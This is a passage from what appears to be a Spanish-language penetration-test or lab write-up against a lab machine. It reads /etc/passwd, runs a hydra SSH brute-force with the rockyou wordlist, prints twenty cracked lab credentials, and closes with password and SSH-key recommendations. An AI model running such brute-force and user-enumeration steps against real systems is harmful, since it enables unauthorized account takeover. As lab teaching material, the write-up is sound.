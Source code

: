 Buscando en bases de datos de CVE, nos encontramos que hay ninguna vulnerabilidad grave en la version de `proftpd` que se encuentra en la máquina, por lo que no perdimos ninguna información vital para el ataque.

De resto, ningún otro servicio inactivo en la máquina tiene una versión vulnerable.

Por otro lado, se puede explorar la máquina para encontrar información adicional. Se puede buscar los usuarios de la máquina con el comando `cat /etc/passwd`:

```bash
cat /etc/passwd
```

Guardando la información de los usuarios en un archivo y utilizando hydra, se puede realizar un ataque de fuerza bruta a los servicios SSH de la máquina para obtener las contraseñas de los usuarios. Se puede utilizar el siguiente comando:

```bash
hydra -L ./usuarios.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
Y se obtiene las contraseñas de los usuarios de la máquina.

```
[22][ssh] host: 172.17.0.2   login: aavila   password: school
[22][ssh] host: 172.17.0.2   login: aparra   password: bowwow
[22][ssh] host: 172.17.0.2   login: dvaimberg   password: chester
[22][ssh] host: 172.17.0.2   login: jcarrillo   password: barcelona
[22][ssh] host: 172.17.0.2   login: mhernandez   password: cameron
[22][ssh] host: 172.17.0.2   login: parevalo   password: 0123456789
[22][ssh] host: 172.17.0.2   login: tsantana   password: volleyball
[22][ssh] host: 172.17.0.2   login: agarcia   password: orlando
[22][ssh] host: 172.17.0.2   login: cfernandez   password: august
[22][ssh] host: 172.17.0.2   login: gmendez   password: kitten
[22][ssh] host: 172.17.0.2   login: jlopez   password: slipknot
[22][ssh] host: 172.17.0.2   login: mstanzione   password: january
[22][ssh] host: 172.17.0.2   login: rmata   password: 50cent
[22][ssh] host: 172.17.0.2   login: ugedde   password: samuel
[22][ssh] host: 172.17.0.2   login: amalaver   password: monkey1
[22][ssh] host: 172.17.0.2   login: dlopez   password: cutiepie
[22][ssh] host: 172.17.0.2   login: jmavarez   password: adidas
[22][ssh] host: 172.17.0.2   login: murdaneta   password: tintin
[22][ssh] host: 172.17.0.2   login: rmerchan   password: mustang
[22][ssh] host: 172.17.0.2   login: vsalcedo   password: portugal
1 of 1 target successfully completed, 20 valid passwords found
```

Es importante hacer nota que no se requiere el acceso root para realizar este ataque, ya que con el usuario no privilegiado `tsantana` ya podíamos obtener acceso a los nombre de usuario de la máquina listando el directorio home, y como todas tenían contraseña insegura, pueden ser descubiertas fácilmente.

## 5. Recomendaciones

- Utilizar contraseñas seguras y no almacenar información sensible de forma accesible por cualquier usuario. Utilizar un generador de contraseñas es una forma de evitar ataques de fuerza bruta.
- Deshabilitar el acceso por ssh con contraseña y permitir únicamente el acceso por llaves.
